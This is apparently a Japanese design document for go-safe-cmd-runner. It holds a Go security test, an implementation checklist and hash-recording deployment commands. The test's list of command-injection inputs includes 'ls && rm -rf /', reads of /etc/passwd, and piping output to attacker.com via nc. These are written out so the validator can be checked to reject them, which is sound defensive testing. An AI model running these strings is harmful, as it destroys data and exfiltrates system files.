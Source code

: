 func TestSecurity_RealWorldAttackScenarios(t *testing.T) {
    mockFS := common.NewMockFileSystem()

    // 実際の攻撃シナリオをシミュレート
    mockFS.AddDir("/usr/bin", 0755)
    mockFS.AddDir("/tmp", 0777) // 攻撃者が書き込み可能
    mockFS.AddFile("/tmp/malicious", 0755, []byte("malicious binary"))
    mockFS.AddFile("/etc/passwd", 0644, []byte("root:x:0:0:root:/root:/bin/bash"))

    security, _ := security.NewValidatorWithFS(security.DefaultConfig(), mockFS)

    // 攻撃シナリオ1: PATHインジェクション
    maliciousPATH := "/tmp:/usr/bin"
    pathResolver := NewPathResolver(maliciousPATH, security, false)

    // 不安全な/tmpディレクトリは権限チェックで排除される
    _, err := pathResolver.ResolvePath("malicious")
    assert.Error(t, err, "Should reject commands from insecure directories")

    // 攻撃シナリオ2: コマンドインジェクション試行
    attackCommands := []string{
        "ls; cat /etc/passwd",
        "ls && rm -rf /",
        "ls | nc attacker.com 1337",
        "$(cat /etc/passwd)",
        "`cat /etc/passwd`",
    }

    for _, cmd := range attackCommands {
        _, err := pathResolver.ResolvePath(cmd)
        assert.Error(t, err, "Should reject command injection attempt: %s", cmd)
    }
}
```

## 7. 実装フェーズ

### Phase 1: 基盤機能
- [ ] 設定ファイル拡張（global/groups の hash_files セクション）
- [ ] runnertypes.Config 構造体拡張（SkipStandardPaths フィールド追加）
- [ ] verification.Manager の VerifyGlobalFiles/VerifyGroupFiles メソッド

### Phase 2: 検証機能
- [ ] main.go への global 検証統合
- [ ] runner.executeGroup への groups 検証統合
- [ ] エラーハンドリング（global失敗→終了、groups失敗→スキップ）

### Phase 3: 統合・テスト
- [ ] PathResolver 実装（スキップ機能付き）
- [ ] コマンド個別検証機能（標準パススキップ対応）
- [ ] 設定ファイル・コマンドライン引数でのスキップ機能制御
- [ ] 包括的テストスイート
- [ ] パフォーマンステスト

## 8. 運用考慮事項

### 8.1 デプロイメント手順

```bash
# 1. ハッシュ記録（global ファイル）
sudo ./build/record -file /usr/bin/systemctl -hash-dir /usr/local/etc/go-safe-cmd-runner/hashes
sudo ./build/record -file /usr/bin/ls -hash-dir /usr/local/etc/go-safe-cmd-runner/hashes

# 2. ハッシュ記録（groups ファイル）
sudo ./build/record -file /usr/sbin/logrotate -hash-dir /usr/local/etc/go-safe-cmd-runner/hashes
sudo ./build/record -file /etc/logrotate.conf -hash-dir /usr/local/etc/go-safe-cmd-runner/hashes

```